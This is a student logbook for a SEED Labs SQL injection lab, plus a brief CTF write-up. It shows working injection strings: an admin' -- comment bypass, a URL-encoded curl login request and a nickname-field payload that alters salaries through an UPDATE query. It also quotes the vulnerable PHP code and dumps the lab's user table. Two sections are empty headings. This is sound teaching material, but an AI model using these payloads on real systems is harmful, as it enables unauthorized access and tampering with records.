 ## Week 8 - SQL INJECTION ATTACK LAB

## Task 1  - Get familiar with SQL statements

Following the lab guide, first we followed the rules of setting up an lab environment with docker commands. 
After getting the container id, we were able to run mysql querie to obtain information about the credential tables by using the following sql command: 

```
select * from credential;

OR, if we wanted only Alice information: 

select * from credential where name = "Alice"; 

```
![Terminal print task1](/images/Logbook%208%20images/task1.11.png)


## Task 2.1 - SQL Injection Attack from webpage

This task consists in a typical SQL injection attack, in order to authenticate as an admin, we used the username admin' -- '

So being, we are able to bypass the password validation, since the the original querie will be modified to this one:

```
SELECT id, name, eid, salary, birth, ssn, address, email,
nickname, Password
FROM credential
WHERE name= 'admin' -- ' and Password='$hashed_pwd'

```

As you can see, the password field will be commented by the '--' which allows us to only authenticate using the username field 


![Terminal print task2.1](/images/Logbook%208%20images/task_2.1.png)

![Terminal print task2.1](/images/Logbook%208%20images/task2.1.1.png)



## Task 2.2 - SQL Injection Attack from command line

We executed the following querie, according to the substitution char replacement rules as shown on the lab guide

```
curl 'www.seed-server.com/unsafe_home.php?username=admin%27%3B%23&Password=11'
```

We were able to get acess to the html/css code of the website as shown below

```

<!--
SEED Lab: SQL Injection Education Web plateform
Author: Kailiang Ying
Email: kying@syr.edu
-->

<!--
SEED Lab: SQL Injection Education Web plateform
Enhancement Version 1
Date: 12th April 2018
Developer: Kuber Kohli

Update: Implemented the new bootsrap design. Implemented a new Navbar at the top with two menu options for Home and edit profile, with a button to
logout. The profile details fetched will be displayed using the table class of bootstrap with a dark table head theme.

NOTE: please note that the navbar items should appear only for users and the page with error login message should not have any of these items at
all. Therefore the navbar tag starts before the php tag but it end within the php script adding items as required.
-->

<!DOCTYPE html>
<html lang="en">
<head>
  <!-- Required meta tags -->
  <meta charset="utf-8">
  <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">

  <!-- Bootstrap CSS -->
  <link rel="stylesheet" href="css/bootstrap.min.css">
  <link href="css/style_home.css" type="text/css" rel="stylesheet">

  <!-- Browser Tab title -->
  <title>SQLi Lab</title>
</head>
<body>
  <nav class="navbar fixed-top navbar-expand-lg navbar-light" style="background-color: #3EA055;">
    <div class="collapse navbar-collapse" id="navbarTogglerDemo01">
      <a class="navbar-brand" href="unsafe_home.php" ><img src="seed_logo.png" style="height: 40px; width: 200px;" alt="SEEDLabs"></a>

      <ul class='navbar-nav mr-auto mt-2 mt-lg-0' style='padding-left: 30px;'><li class='nav-item active'><a class='nav-link' href='unsafe_home.php'>Home <span class='sr-only'>(current)</span></a></li><li class='nav-item'><a class='nav-link' href='unsafe_edit_frontend.php'>Edit Profile</a></li></ul><button onclick='logout()' type='button' id='logoffBtn' class='nav-link my-2 my-lg-0'>Logout</button></div></nav><div class='container'><br><h1 class='text-center'><b> User Details </b></h1><hr><br><table class='table table-striped table-bordered'><thead class='thead-dark'><tr><th scope='col'>Username</th><th scope='col'>EId</th><th scope='col'>Salary</th><th scope='col'>Birthday</th><th scope='col'>SSN</th><th scope='col'>Nickname</th><th scope='col'>Email</th><th scope='col'>Address</th><th scope='col'>Ph. Number</th></tr></thead><tbody><tr><th scope='row'> Alice</th><td>10000</td><td>20000</td><td>9/20</td><td>10211002</td><td></td><td></td><td></td><td></td></tr><tr><th scope='row'> Boby</th><td>20000</td><td>30000</td><td>4/20</td><td>10213352</td><td></td><td></td><td></td><td></td></tr><tr><th scope='row'> Ryan</th><td>30000</td><td>50000</td><td>4/10</td><td>98993524</td><td></td><td></td><td></td><td></td></tr><tr><th scope='row'> Samy</th><td>40000</td><td>90000</td><td>1/11</td><td>32193525</td><td></td><td></td><td></td><td></td></tr><tr><th scope='row'> Ted</th><td>50000</td><td>110000</td><td>11/3</td><td>32111111</td><td></td><td></td><td></td><td></td></tr><tr><th scope='row'> Admin</th><td>99999</td><td>400000</td><td>3/5</td><td>43254314</td><td></td><td></td><td></td><td></td></tr></tbody></table>      <br><br>
      <div class="text-center">
        <p>
          Copyright &copy; SEED LABs
        </p>
      </div>
    </div>
    <script type="text/javascript">
    function logout(){
      location.href = "logoff.php";
    }
    </script>
  </body>
  </html>

  ```

  Then with this link:

  ![Terminal print linktoacesssite](/images/Logbook%208%20images/linktoacesssite.png)

  We can authenticate in the website as the Admin.

  ![Terminal print imagem_2022-11-17_154655081](/images/Logbook%208%20images/imagem_2022-11-17_154655081.png)

## Task 2.3 - Append a new SQL statement 

For this task, we need to try to run two SQL statements by exploiting the vulnerabilities in the previous tasks. we can try to login as admin and add another user in the same input by trying the following:


![Terminal print task2.3](/images/Logbook%208%20images/task2.3errorsql.png)

We are not able to do it this way, due to this sql statement error.

A few hours later, right when we were this close of jumping into a cliff, we inspected the source code of the website we came across this code:

```
// create a connection
$conn = getDB();
// Sql query to authenticate the user
$sql = "SELECT id, name, eid, salary, birth, ssn, phoneNumber, address, email,nickname,Password
FROM credential
WHERE name= '$input_uname' and Password='$hashed_pwd'";
if (!$result = $conn->query($sql)) {
  echo "</div>";
  echo "</nav>";
  echo "<div class='container text-center'>";
  die('There was an error running the query [' . $conn->error . ']\n');
  echo "</div>";
}

```

We noticed that the bright mind who wrote the website, used the query() function, and we found that its not possible to use multiple queries with a querie() function, it would be necessary to use the multi_querie() function instead.

Check it out here: https://www.php.net/manual/en/mysqli.quickstart.multiple-statement.php

## Task 3 - SQL Injection Attack on UPDATE Statement

## Task 3.1 -  SQL Injection Attack on UPDATE Statement - Update Salary

Here, we used the same username way as used on the 2.1 exercise, instead we used Alice' -- ' to gain acess to Alice's account, 
then we went to "Edit profile", and typed on the nickname field the current info: 

  ![Terminal print acessAliceinformation](/images/Logbook%208%20images/acessAliceinformation.png)

  ![Terminal print AliceInformation](/images/Logbook%208%20images/AliceInformation.png)

Alice thinks that she deserves a raise, so we want to help her. After acessing Alice profile, we can edit the information found in the profile. So let´s say that her new salary is now 30000. To accomplish this, just do as we did in task 2.1 but instead of an authentication, we will uptade her salary. In the field "NickName" we will write "Alice', salary='30000", this will change Alice´s salary to 30000 while setting Alice´s nickname to "Alice".

  ![Terminal print realsalaryupdate](images/Logbook%208%20images/realsalaryupdate.png)

  ![Terminal print realAliceInformation](images/Logbook%208%20images/realAliceInformation.png)




## Task 3.2 - Modify other people’ salary

Alice was still not done. After raising her salary, she wants to reduce her boss's salary, called Boby.






# CTF Write-UP 

## Challenge 1 

Entering the easyvault website, with a login page, we were told that we need to log in as a admin username 

So we used the same method as described on the seed labs, using the following information: 

```
username: admin' -- 
password: c  (can use any character)
```

Once again, by using this username we are commenting the password part of the querie with the  -- symbols.
We are requested still to enter something on the password field due to frontend requeriments but it wont be subjected to any validation. 


## Challenge 2 


